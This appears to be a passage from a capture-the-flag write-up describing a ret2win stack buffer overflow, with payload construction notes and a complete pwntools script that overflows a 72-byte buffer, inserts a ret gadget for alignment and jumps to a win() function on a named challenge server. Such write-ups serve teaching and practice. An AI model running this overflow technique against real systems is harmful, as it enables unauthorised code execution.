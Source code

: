 ## Exploitation


### Payload Construction

 - Fill the 72-byte buffer completely
 - Add a `ret` gadget for x64 stack alignment (required for some system calls) -
### why? 
On x64 systems, some functions (particularly those calling system functions) require the stack to be 16-byte aligned. Adding a `ret` gadget before calling `win()` ensures proper alignment.


Add the address of `win()` function

```python
offset = 72
payload = b'A' * offset       # Fill the buffer
payload += p64(0x40101a)      # ret gadget 
payload += p64(0x4011a0)      # win() address
```



### The Exploit

```
#!/usr/bin/env python3

from pwn import *

context.update(arch='amd64', os='linux')


HOST = 'chall_citadel.cryptonitemit.in'
PORT = 56743


win_addr = 0x4011a0   
ret_gadget = 0x40101a  



print(f"win() address: {hex(win_addr)}")
print(f"ret gadget: {hex(ret_gadget)}")
print()

# Connect to remote server
print("connect ti host")
io = remote(HOST, PORT)

# Receive the banner
io.recvuntil(b'cooked.')


# Buffer is 0x48
# Add ret gadget for x64 stack alignment
#  Add win() address 
offset = 72
payload = b'A' * offset
payload += p64(ret_gadget)
payload += p64(win_addr)

print(f"sending offset: {offset}, length: {len(payload)})")
io.sendline(payload)

```